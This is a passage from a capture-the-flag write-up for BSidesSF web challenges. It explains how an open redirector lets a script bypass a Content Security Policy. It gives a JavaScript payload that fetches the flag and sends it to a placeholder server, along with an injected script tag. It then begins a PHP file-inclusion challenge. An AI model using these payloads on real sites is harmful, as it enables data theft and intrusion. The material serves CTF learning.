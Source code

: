 This page is what is called open redirector that navigates to the URL specified in the `url` query.

Let's leverage this feature and whitelisted endpoint (`http://storage.googleapis.com/good.js`) to compromise CSP!

According to the [CSP Level 3, 7.6. Paths and Redirects](https://www.w3.org/TR/CSP3/#source-list-paths-and-redirects), the path section is ignored after redirect.

> To avoid leaking path information cross-origin (as discussed in Egor Homakov’s Using Content-Security-Policy for Evil), the matching algorithm ignores the path component of a source expression if the resource being loaded is the result of a redirect. For example, given a page with an active policy of img-src example.com example.org/path:
>
> Directly loading https://example.org/not-path would fail, as it doesn’t match the policy.
>
> Directly loading https://example.com/redirector would pass, as it matches example.com.
>
> Assuming that https://example.com/redirector delivered a redirect response pointing to https://example.org/not-path, the load would succeed, as the initial URL matches example.com, and the redirect target matches example.org/path if we ignore its path component.

Because of that,  JavaScript file loaded from `https://csp-3-05637e51.challenges.bsidessf.net/redirect?url=http://storage.googleapis.com/*` is allowed and can be executed!!

So all we need to do is as follows:

1. Put a JavaScript file for exploits CSP like `fetch("https://csp-3-05637e51.challenges.bsidessf.net//csp-three-flag").then(r=>r.text()).then(t=>fetch("YOUR_SERVER"+t))` on Firebase Storage.
1. Publish with a whitelisted URL like `http://storage.googleapis.com/YOUR_BUCKET_NAME/exploit.js`.
1. Input: `<script src="https://csp-3-05637e51.challenges.bsidessf.net/redirect?url=https://storage.googleapis.com/YOUR_BUCKET_NAME/exploit.js></script>`

Then you can Capture The FLAG!!

FLAG: `CTF{Cyber_Security_Practitioner}`

# [Web / 51pts] had-a-bad-day
The goal in question is to read the `flag.php`.

When we open the challenge's URL, we can see two buttons (WOOFERS and MEOWERS).

If you click the WOOFERS button, a picture of the dog appears. And if you click the MEOWERS button, a picture of the cat appears.

[f:id:Szarny:20200225133054p:plain]

When you click the WOOFERS button, the URL is set like this: `https://had-a-bad-day-5b3328ad.challenges.bsidessf.net/index.php?category=woofers`.

Here, if you change the category query string from `woofers` to `woofers!`, the following error message appears.

```
Warning: include(woofers!.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 37

Warning: include(): Failed opening 'woofers!.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 37
```
